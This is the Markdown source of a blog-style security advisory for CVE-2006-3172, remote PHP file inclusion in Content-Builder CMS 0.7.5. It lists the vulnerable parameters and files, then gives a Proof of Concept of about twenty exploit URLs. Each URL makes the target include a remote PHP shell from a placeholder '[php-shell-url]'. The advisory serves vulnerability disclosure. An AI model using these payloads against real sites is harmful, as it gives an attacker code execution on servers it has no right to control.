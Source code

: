 ```yaml
---
layout: post
title:  "CVE-2006-3172 – Content-Builder CMS 0.7.5 - Remote Command Execution"
date:   2006-06-11 00:00:00
categories: security cve
permalink: post/CVE-2006-3172-content-builder-cms-remote-command-execution/
---
```


### Vendor

[http://www.content-builder.de/][contentbuildercms]

[contentbuildercms]:	http://www.content-builder.de/	"Content-Builder CMS"

> phpCMS is more than just a content management system: it is also a templating engine and an application framework.

### Description

Multiple PHP remote file inclusion vulnerabilities in `Content Builder 0.7.5` allow remote attackers to execute arbitrary PHP code via a URL with a trailing slash (/) character in the

1. lang_path parameter to
*	(a) cms/plugins/col_man/column.inc.php,
*	(b) cms/plugins/poll/poll.inc.php,
*	(c) cms/plugins/user_managment/usrPortrait.inc.php,
*	(d) cms/plugins/user_managment/user.inc.php,
*	(e) cms/plugins/media_manager/media.inc.php,
*	(f) cms/plugins/events/permanent.eventMonth.inc.php,
*	(g) cms/plugins/events/events.inc.php,
*	(h) cms/plugins/newsletter2/newsletter.inc.php;
2. path[cb] paramter to
*	(i) modules/guestbook/guestbook.inc.php,
*	(j) modules/shoutbox/shoutBox.php,
*	(k) modules/sitemap/sitemap.inc.php; and the
3. rel parameter to
*	(l) modules/download/overview.inc.php,
*	(m) modules/download/detailView.inc.php,
*	(n) modules/article/fullarticle.inc.php,
*	(o) modules/article/comments.inc.php,
*	(p) modules/article2/overview.inc.php,
*	(q) modules/article2/fullarticle.inc.php,
*	(r) modules/article2/comments.inc.php,
*	(s) modules/headline/headlineBox.php,
*	(t) modules/headline/showHeadline.inc.php.

### Proof of Concept

**~** stands for `[php-shell-url]`

http://example/[cb_path]/cms/plugins/col_man/column.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/poll/poll.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/user_managment/usrPortrait.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/user_managment/user.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/media_manager/media.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/events/permanent.eventMonth.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/events/events.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/newsletter2/newsletter.inc.php?lang_path=
**~**/
http://example/[cb_path]/modules/guestbook/guestbook.inc.php?path[cb]=
**~**/
http://example/[cb_path]/modules/shoutbox/shoutBox.php?path[cb]=
**~**/
http://example/[cb_path]/modules/download/overview.inc.php?rel=
**~**/
http://example/[cb_path]/modules/download/detailView.inc.php?rel=
**~**/
http://example/[cb_path]/modules/sitemap/sitemap.inc.php?path[cb]=
**~**/
http://example/[cb_path]/modules/article/fullarticle.inc.php?rel=
**~**/
http://example/[cb_path]/modules/article/comments.inc.php?rel=
**~**/
http://example/[cb_path]/modules/article2/overview.inc.php?rel=
**~**/
http://example/[cb_path]/modules/article2/fullarticle.inc.php?rel=
**~**/
http://example/[cb_path]/modules/article2/comments.inc.php?rel=
**~**/
http://example/[cb_path]/modules/headline/headlineBox.php?rel=
**~**/
http://example/[cb_path]/modules/headline/showHeadline.inc.php?rel=
**~**/

### References

* [http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3172][mitre]
* [http://www.securityfocus.com/bid/18404][securityfocus]
* [http://www.osvdb.org/26344][osvdb]
* [http://secunia.com/advisories/20557][secunia]

[mitre]:			http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3172 "CVE 2006-3172"
[securityfocus]:	http://www.securityfocus.com/bid/18404						"SecurityFocus-18404"
[osvdb]:			http://www.osvdb.org/26344									"OSVDB-26344"
[secunia]:			http://secunia.com/advisories/20557							"Secunia-20557"